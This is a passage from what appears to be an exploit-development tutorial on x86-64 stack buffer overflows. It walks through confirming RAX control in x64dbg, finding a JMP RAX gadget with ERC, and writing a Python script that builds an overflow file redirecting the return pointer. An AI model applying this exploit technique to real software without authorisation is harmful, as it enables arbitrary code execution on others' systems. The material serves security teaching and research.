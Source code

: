 Now that we have identified how far into our malicious input the return pointer was overwritten it is time to identify if `RAX` points to a useful section of memory. We can do this by right clicking the `RAX` register in x64dbg and selecting “Follow in Dump” which we can now see points to the start of our non-repeating pattern. 

<p align="center"><img src="/images/basics-of-exploit-development-5-x86-64-buffer-overflows/RAX_Points_into_buffer.PNG"/></p>    
<p align="center"><i>RAX pointing to the start of the non-repeating pattern.</i></p>

Now that we know we can control `RIP` and we have a register that points into an area of memory we control all we need is a pointer to a `JMP RAX` instruction and execution will be diverted to the start of our malicious buffer. First let’s identify what hex codes correspond to `JMP RAX`.

**Command:**
```
ERC --assemble JMP RAX
```

<p align="center"><img src="/images/basics-of-exploit-development-5-x86-64-buffer-overflows/assemble_jmp_rax.PNG"/></p>    
<p align="center"><i>JMP RAX hex code.</i></p>

Now let’s search the binaries loaded by the application for a suitable pointer to a `JMP RAX` instruction.

**Command:**
```
ERC --searchmemory FF E0
```

<p align="center"><img src="/images/basics-of-exploit-development-5-x86-64-buffer-overflows/JMP_RAX_Pointers.PNG"/></p>    
<p align="center"><i>Suitable pointers to JMP RAX instructions.</i></p>

In this example we will be using `0x00000000007D6AF0`. As this is a canonical address we can put this at the point necessary to overwrite our return pointer and see if it gets loaded into `RIP`. Our exploit code should now look like this:
```
f = open("crash-3.txt", "wb")  
  
buf = b"\x90" * 712  
buf += b"\xF0\x6A\x7D\x00\x00\x00\x00\x00" #00000000007D6AF0  
buf += b"\x00" * 300  
  
f.write(buf)  
f.close()
```
